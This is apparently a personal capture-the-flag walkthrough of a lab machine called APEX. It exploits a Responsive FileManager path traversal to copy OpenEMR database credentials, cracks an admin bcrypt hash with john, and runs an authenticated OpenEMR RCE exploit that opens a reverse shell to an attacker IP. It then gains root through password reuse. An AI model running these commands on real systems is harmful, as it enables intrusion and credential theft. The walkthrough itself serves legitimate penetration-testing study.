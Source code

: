 > Noamro08 - 10 Feb 2024

### Tareget:  192.168.153.145

---
## Enumeration:

nmap scan - default scripts, services top 1000 ports:
```bash
nmap -Pn -n -A 192.168.153.145 -oN inital.scan
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: APEX Hospital
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 33
|   Capabilities flags: 63487
|   Some Capabilities: ODBCClient, Speaks41ProtocolNew, Support41Auth, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsCompression, InteractiveClient, FoundRows, SupportsLoadDataLocal, LongColumnFlag, ConnectWithDatabase, LongPassword, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: WV'^'DbBbH}_F|aOHZm4
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: APEX
```

scan for all ports:
```bash
nmap -Pn -n -p- 192.168.153.145 -oN all.ports --min-rate=5000
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

fuzzing dirs with ffuf:
```bash
ffuf -u http://192.168.163.145/FUZZ -w /usr/share/dirb/wordlists/big.txt -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.163.145/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 76ms]
filemanager             [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 76ms]
source                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 77ms]
thumbs                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 111ms]
```

in /filemanger we can see it is "Responsive FileManager v.9.13.4":
![[Pasted image 20240211004241.png]]

so we search for exploits with searchsploit:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ searchsploit filemanager 9.13.4

Responsive FileManager 9.13.4 - 'path' Path Traversal | php/webapps/49359.py
```
we can see there is an path traversal exploit to this version.

i copied the exploit and examine it, the arguments are: "URL, SESSION, File Path":
`python3 49359.py http://192.168.163.145/ PHPSESSID=rgbrj0p251naofvj6u4f4mhp36 /etc/passwd`
![[Pasted image 20240211005201.png]]
we can get from the /etc/passwd file the user white!

Since we know that OpenEMR is running on the system, let’s look for interesting files in it’s public repository https://github.com/openemr/openemr/
![[Pasted image 20240211010839.png]]
The sqlconf.php present in openemr/sites/default seems to contain credentials for the database, lets try exploiting the directory traversal in Responsive File Manager to read sqlconf.php assuming the default path as /var/www/openemr/sites/default/sqlconf.php

`python3 49359.py http://192.168.129.145 PHPSESSID=b2c1phka86mnkrcif4sjm3fk16 /var/www/openemr/sites/default/sqlconf.php`
trying the exploit again, The exploit works, but since it is a PHP file we can’t read it via Responsive File Manager.

We know from our enumeration that Documents folder in filemanager can be accessed via the docs smb share:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ crackmapexec smb 192.168.153.145 --shares -u ori -p '123123123'
SMB         192.168.153.145 445    APEX             [*] Windows 6.1 (name:APEX) (domain:) (signing:False) (SMBv1:True)
SMB         192.168.153.145 445    APEX             [+] Enumerated shares
SMB         192.168.153.145 445    APEX             Share           Permissions     Remark
SMB         192.168.153.145 445    APEX             -----           -----------     ------
SMB         192.168.153.145 445    APEX             docs            READ            Documents
```

```bash
smbclient //192.168.163.145/docs -U 'white'
Password for [WORKGROUP\white]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 18:47:12 2021
  ..                                  D        0  Sun Feb 11 00:50:42 2024
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 18:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 18:47:12 2021
```
![[Pasted image 20240211011308.png]]
we can see these files in the "docs" smb share.

Let’s modify the exploit’s path to copy the file into the Documents folder (Line 36 of the exploit code):
```python
url_paste, data="path=Documents/", headers=headers)
```

now exploiting this will put the file in the docs smb share:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ python3 49359.py http://192.168.163.145/ PHPSESSID=rgbrj0p251naofvj6u4f4mhp36 /var/www//openemr/sites/default/sqlconf.php
```
![[Pasted image 20240211011630.png]]

now by viewing this file:
```bash
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
```
we get this credentials for the mysql database

connecting to mysql server:
`mysql -h 192.168.163.145 -u 'openemr' -pC78maEQUIEuQ -D openemr -A`

in the mysql server we can see the hash for 'admin':
![[Pasted image 20240211012639.png]]
<font color="#92d050">admin: $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC</font>

now cracking this password with john:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ echo '$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC' > admin.hash

john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:10 DONE (2024-02-11 01:25) 0.09293g/s 4055p/s 4055c/s 4055C/s versus..sportygirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
<font color="#92d050">admin: thedoctor</font>

now we login to the "http://192.168.163.145/openemr/interface/login/login.php?site=default"
![[Pasted image 20240211012958.png]]

## RCE:
now we can see the version of this 'openemr' site "5.0.1", searching for exploits we find this RCE:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ searchsploit OpenEMR 5.0.1
OpenEMR 5.0.1 - Remote Code Execution (1) | php/webapps/48515.py
```
examining the exploit:
i change the IP and port to match our nc listener and the credentials to match out target.

also we have this [POC blog](https://musyokaian.medium.com/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69)
```bash
python3 48515.py
```
i get a lot of errors and it does not working.

searching for another we can see this one:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ searchsploit OpenEMR 5.0.1
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated) | php/webapps/45161.py
```
copying the exploit to our location:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/apex]
└─$ searchsploit -m 45161
```

the usage of this exploit is very simple: " 'target/openemr' 'user' 'pass' 'command' ":
```bash
python2 45161.py http://192.168.163.145/openemr/ -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.161/80 0>&1'
```
it works only with python2...
![[Pasted image 20240211020901.png]]
we get shell.

improve it with python tty method:
```bash
www-data@APEX:/var/www/openemr/interface/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL ^Z
---
stty size            
42 189
stty raw -echo; fg
---
www-data@APEX:/var/www/openemr/interface/main$ stty rows 42 columns 189
```

## Privesc
after a bit of internal enumeration we find nothing so we try to reuse the password that we have to root and it works!:
```bash
www-data@APEX:/var/www/openemr$ su
Password: 'thedoctor'
root@APEX:/var/www/openemr# cat /root/proof.txt 
fedd08a37fd9af417d31e17513a1e716
```
